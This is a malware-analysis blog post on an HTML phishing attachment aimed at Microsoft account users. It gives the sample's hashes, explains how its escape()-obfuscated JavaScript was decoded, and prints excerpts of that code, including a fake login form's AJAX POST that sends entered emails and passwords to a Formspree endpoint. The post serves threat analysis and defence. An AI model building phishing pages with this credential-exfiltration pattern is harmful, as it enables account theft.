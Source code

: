 ```yaml
---
layout: default
title:  "Threat Actors Manipulating Formspree for SHTML Phishing"
date:   2025-07-27 15:03:00 -0400
categories: malware analysis
---
```


> MD5 11eaf696e140c3673e504570b7955678

> SHA-1 e4ec118dae227d8a086c98035a1e6e89d6f60283

> SHA-256 e0a14c1a89b709e27fa32e669e354eb5b7a61b33071f81eb6f9a936ed528a4e5

The sample I have analyzed in this post appears to be targeted towards users in organizations utilizing popular Microsoft solutions such as Onedrive, Outlook, and others. The initial vector is (of course) a phishing email with an .HTML attached that contains obfuscated JavaScript that will be handled and executed in the browser, not the OS itself with WScript or CScript. Over the last year, HTML smuggling and other HTML phishing techniques have surged as from the perspective of the threat actors, this is advantageous as it aids in evading security solutions. In this case, threat actors are leveraging a service known as Formspree which allows for sending data to email addresses without a backend.

Examining the .HTML in a text editor reveals “three” lines of code, which are comprised of JavaScript code in an escape block. The escape() function ensures that the string enclosed in the function replaces all characters with escape sequences for obfuscation, with the exception of ASCII characters. With escape(), characters are escaped by UTF-16 code units, and are represented by two hexadecimal numbers (%xx) if the value of the code unit is less than 256.

![Alt text](/assets/images/2025/Formspree/1-java.png)

There are many ways to decode the string, but I chose to use CyberChef’s “From Hex” recipe with the delimiter set to Auto, save it as an .HTML file, and open it in a text editor.

![Alt text](/assets/images/2025/Formspree/2-cyberchef.png)

Decoding the escape block revealed a large HTML file containing several areas of interest. There are several instances of base64 encoded images that are used for logo, blurred background image, and more.

{% highlight ruby %}
background-image:url(data:image/png;base64, …)
{% endhighlight %}

After the encoded PNG images, there is a large obfuscated portion of JavaScript that can be deobfuscated using synchrony.

![Alt text](/assets/images/2025/Formspree/3-synchrony.png)

{% highlight ruby %}
      !/^([a-zA-Z0-9_\.\-])+\@(([a-zA-Z0-9\-])+\.)+([a-zA-Z0-9]{2,4})+$/.test(w)
    ) {
      return (
        $('#error').show(),
        $('#error').html(
          "That account doesn't exist. Enter a different account"
        ),
        v.focus,
        false
      )
{% endhighlight %}

{% highlight ruby %}
    if (!v) {
      return (
        $('#error').show(),
        $('#error').html('Email field is emply.!'),
        v.focus,
        false
      )
    }
{% endhighlight %}

{% highlight ruby %}
    $.ajax({
      dataType: 'JSON',
      url: atob(s),
      type: 'POST',
      data: E,
      beforeSend: function (J) {
        $('#submit-btn').html('Verifing...')
{% endhighlight %}

{% highlight ruby %}
      success: function (J) {
        if (J) {
          $('#msg').show()
          console.log(J)
          if (J.signal == 'ok') {
            $('#pr').val(''),
              j >= 2 &&
                ((j = 0),
                window.location.replace(
                  'https://www.microsoft.com/en-EN/servicesagreement/'
                ))
{% endhighlight %}

The meat and potatoes of this .HTML is the following:

{% highlight ruby %}$.ajax({
          dataType: 'JSON',
          url: "https://formspree.io/f/redacted",
          type: 'POST',
          data:{
            ai:ai,
            pr:pr,
            detail:detail,

          }
{% endhighlight %}

After the phished user provides an email, password, and clicks the Login button, an AJAX submission is performed which sends a POST request to the provided Formspree URL containing the email (ai) and password (pr”) data entered into the fields. The actual rendered webpage appears as follows.

![Alt text](/assets/images/2025/Formspree/4-formspreepage.png)

Thanks for reading.